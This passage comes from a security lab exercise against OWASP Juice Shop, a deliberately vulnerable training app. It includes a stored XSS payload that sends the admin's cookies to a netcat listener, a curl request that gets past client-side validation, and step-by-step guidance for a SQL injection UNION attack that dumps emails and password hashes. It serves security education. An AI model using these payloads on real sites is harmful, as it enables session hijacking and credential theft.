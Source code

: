 * We can bypass the basic sanitizer that is used on the admin page with ```a|a``` in the beginning of the script. Try the script without it to see the effect.

This will make the server attempt to fetch an image from a server we control and when it fails the server will send back the users cookies. This means we need a server. For this, we can utilize netcat. Use the following command to start a TCP server which listens to port 5555.
```shell
~$ nc -l -p 5555 -v
```

You can't create a user with the name ```<a|ascript><img src=http://127.0.0.1:5555?c='+ escape(document.cookie)+ '   ></script>``` using the site's own create account page. This is because Juice Shop validates the input in the client-side **but** not on the server-side. For this reason, we are going to use curl to send the user creation packet directly to the API, this way bypassing the site's input validation. In order to do this, we need to know what type of packet the API expects.

We can find out the type of packet we need in the following way:

* Create a user with whatever username and password you like.
* Check the post packet that is sent when you press the create user button. From this packet, you see the location and the packet content that is needed to create an account.
* Create a JSON file that is in the same format as in the POST request, change the email field to the code snippet mentioned above and send it to the user creation API using curl. Below is an example of the curl request.  

```shell
~$ curl -d @<your_json_file_name>.json -H "Content-Type: application/json" -X POST <API_url>
```
After this, log in as the administrator and go to the administration panel while you have netcat on. The administration panel should have a weird looking user and the netcat should show your cookie information.

__*Paste a screenshot of the administration panel and netcat when the exploit is active.*__  

---

## Task 2 

**'These are not my credentials'**

Use SQL injection in the GET request in a similar way as in Task 1, but this time use [UNION](http://www.sqlinjection.net/union/) command to get all the users emails and password hashes.

<details><summary>Hint</summary></details>

First, form a statement that attempts to select all the columns from the users table. If the server returns "table does not exist" you guessed it wrong. If you receive the following error "SQLITE_ERROR: SELECTs to the left and right of UNION does not have the same number of result columns" you are on the right track. 

After you know the table name, you have to find out how many columns the Products table has, so you can select that many columns from the users table. 

You can guess this if you want to, but the column amount can also be found from the response you get from a product search. Now select that many columns from the users table where at least two of them are email and password. If the values are not visible, you might have put it to a field that is not rendered visible. Try putting it to a different field.
